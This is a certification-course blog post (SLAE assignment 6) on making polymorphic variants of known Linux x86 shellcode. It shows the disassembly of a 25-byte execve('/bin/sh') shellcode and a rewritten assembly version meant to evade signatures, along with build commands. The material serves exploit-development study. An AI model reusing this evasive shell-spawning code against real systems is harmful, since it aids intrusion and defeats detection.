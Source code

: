 # Assignment #6
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228

We have already seen a [great example of polymorphic encoding](https://marcosvalle.github.io/re/exploit/2018/08/25/shikata-ga-nai.html) when we decided to take a look at Shikata-Ga-Nai. Nevertheless, it's time to see how can we create a polymorphic version of the following 3 shellcodes.

All the source codes can be compiled using:

	nasm -f elf32 shellcode.s -o shellcode.o
	ld -m elf_i386 shellcode.o -o shellcode

# Shellcode 1: Linux/x86 - execve(/bin/sh) - 25 bytes
The original version can be found [here](http://shell-storm.org/shellcode/files/shellcode-585.php). It is interesting because the author used the [JMP/CALL/POP](https://marcosvalle.github.io/osce/2018/05/06/JMP-CALL-POP-technique.html) technique.

```
0:  eb 0b                   jmp    0xd
2:  5b                      pop    ebx
3:  31 c0                   xor    eax,eax
5:  31 c9                   xor    ecx,ecx
7:  31 d2                   xor    edx,edx
9:  b0 0b                   mov    al,0xb
b:  cd 80                   int    0x80
d:  e8 f0 ff ff ff          call   0x2
12: 2f                      das
13: 62 69 6e                bound  ebp,QWORD PTR [ecx+0x6e]
16: 2f                      das
17: 73 68                   jae    0x81
```

Modified source code:

```
section .text
	global _start

_start:

	jmp short two
	nop
	nop

one:
	pop    ebx
	xor    eax,eax
	cdq    
	xchg   ecx,eax
	mov    al,0xb
	int    0x80
two:
	call one
	shell: db '/bin/sh'
```
